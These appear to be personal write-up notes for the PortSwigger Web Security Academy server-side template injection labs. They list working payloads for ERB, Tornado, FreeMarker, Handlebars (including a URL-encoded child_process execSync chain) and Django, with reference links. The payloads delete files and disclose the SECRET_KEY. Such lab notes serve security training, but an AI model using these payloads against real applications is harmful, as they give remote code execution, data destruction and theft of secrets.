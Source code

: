 ### Basic server-side template injection

first post

https://0ac9005804b8045fc05e1274002b005e.web-security-academy.net/?message=%3C%=%20File.delete(%27/home/carlos/morale.txt%27).read%20%%3E

https://0ac9005804b8045fc05e1274002b005e.web-security-academy.net/?message=%3C%=%20File.delete(%27/home/carlos/morale.txt%27)%20%%3E

https://www.trustedsec.com/blog/rubyerb-template-injection/

### Basic server-side template injection (code context)

change user.name

https://ajinabraham.com/blog/server-side-template-injection-in-tornado

blog-post-author-display=user.name&csrf=ya6XzIkQJ5iZKC6WaOjeQZEJeicgdiDS

blog-post-author-display=user.name}}{{7*7}}&csrf=ya6XzIkQJ5iZKC6WaOjeQZEJeicgdiDS

blog-post-author-display=user.name}}{%import%20os%}{{os.remove(%22/home/carlos/morale.txt%22)}}&csrf=ya6XzIkQJ5iZKC6WaOjeQZEJeicgdiDS

### Server-side template injection using documentation

edit post

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

${product.price} 

${7*7}

${asdasd}

<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }

https://freemarker.apache.org/docs/ref_builtins_expert.html

https://gosecure.github.io/template-injection-workshop/#7

https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf

https://www.synacktiv.com/en/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack.html

https://ackcent.com/in-depth-freemarker-template-injection/

### Server-side template injection in an unknown language with a documented exploit

first post

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#handlebars---command-execution

http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

https://www.urlencoder.org/

asd%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0A%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%7B%7Bthis.push%20%28lookup%20string.sub%20%22constructor%22%29%7D%7D%0A%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%7B%7B%23with%20string.split%20as%20%7Ccodelist%7C%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7Bthis.push%20%22return%20require%28%27child_process%27%29.execSync%28%27rm%20%2Fhome%2Fcarlos%2Fmorale.txt%27%29%3B%22%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string.sub.apply%200%20codelist%29%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%20%20%7B%7B%2Fwith%7D%7D%0A%7B%7B%2Fwith%7D%7D

### Server-side template injection with information disclosure via user-supplied objects

${{<%[%'"}}%\

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#django-template

https://lifars.com/wp-content/uploads/2021/06/Django-Templates-Server-Side-Template-Injection-v1.0.pdf

https://github.com/Lifars/davdts

https://alicecampkin.medium.com/how-to-set-up-environment-variables-in-django-f3c4db78c55f

{% debug %}

{{settings.SECRET_KEY}}

https://docs.djangoproject.com/en/4.1/howto/deployment/checklist/




